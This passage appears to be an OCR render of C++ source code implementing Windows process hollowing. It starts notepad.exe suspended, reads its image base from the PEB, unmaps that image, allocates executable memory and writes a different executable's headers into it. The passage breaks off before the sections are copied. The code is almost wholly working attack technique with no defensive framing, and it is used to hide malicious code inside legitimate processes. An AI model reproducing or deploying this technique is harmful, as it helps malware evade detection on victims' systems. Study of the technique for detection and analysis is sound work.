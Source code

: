 ```cpp
	DWORD BlockSize;
} BASE_RELOCATION_BLOCK, *PBASE_RELOCATION_BLOCK;

typedef struct BASE_RELOCATION_ENTRY {
	USHORT Offset : 12;
	USHORT Type : 4;
} BASE_RELOCATION_ENTRY, *PBASE_RELOCATION_ENTRY;

int main()
{
	// create destination process - this is the process to be hollowed out
	LPSTARTUPINFOA si = new STARTUPINFOA();
	LPPROCESS_INFORMATION pi = new PROCESS_INFORMATION();
	PROCESS_BASIC_INFORMATION *pbi = new PROCESS_BASIC_INFORMATION();
	DWORD returnLenght = 0;
	CreateProcessA(NULL, (LPSTR)"c:\\windows\\syswow64\\notepad.exe", NULL, NULL, TRUE, CREATE_SUSPENDED, NULL, NULL, si, pi);
	HANDLE destProcess = pi->hProcess;

	// get destination imageBase offset address from the PEB
	NtQueryInformationProcess(destProcess, ProcessBasicInformation, pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLenght);
	DWORD pebImageBaseOffset = (DWORD)pbi->PebBaseAddress + 8; 
	
	// get destination imageBaseAddress
	LPVOID destImageBase = 0;
	SIZE_T bytesRead = NULL;
	ReadProcessMemory(destProcess, (LPCVOID)pebImageBaseOffset, &destImageBase, 4, &bytesRead);

	// read source file - this is the file that will be executed inside the hollowed process
	HANDLE sourceFile = CreateFileA("C:\\temp\\regshot.exe", GENERIC_READ,	NULL, NULL, OPEN_ALWAYS, NULL, NULL);
	DWORD sourceFileSize = GetFileSize(sourceFile, NULL);
	LPDWORD fileBytesRead = 0;
	LPVOID sourceFileBytesBuffer = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sourceFileSize);
	ReadFile(sourceFile, sourceFileBytesBuffer, sourceFileSize, NULL, NULL);
	
	// get source image size
	PIMAGE_DOS_HEADER sourceImageDosHeaders = (PIMAGE_DOS_HEADER)sourceFileBytesBuffer;
	PIMAGE_NT_HEADERS sourceImageNTHeaders = (PIMAGE_NT_HEADERS)((DWORD)sourceFileBytesBuffer + sourceImageDosHeaders->e_lfanew);
	SIZE_T sourceImageSize = sourceImageNTHeaders->OptionalHeader.SizeOfImage;

	// carve out the destination image
	NtUnmapViewOfSection myNtUnmapViewOfSection = (NtUnmapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtUnmapViewOfSection"));
	myNtUnmapViewOfSection(destProcess, destImageBase);

	// allocate new memory in destination image for the source image
	LPVOID newDestImageBase = VirtualAllocEx(destProcess, destImageBase, sourceImageSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	destImageBase = newDestImageBase;

	// get delta between sourceImageBaseAddress and destinationImageBaseAddress
	DWORD deltaImageBase = (DWORD)destImageBase - sourceImageNTHeaders->OptionalHeader.ImageBase;

	// set sourceImageBase to destImageBase and copy the source Image headers to the destination image
	sourceImageNTHeaders->OptionalHeader.ImageBase = (DWORD)destImageBase;
	WriteProcessMemory(destProcess, newDestImageBase, sourceFileBytesBuffer, sourceImageNTHeaders->OptionalHeader.SizeOfHeaders, NULL);

	// get pointer to first source image section
```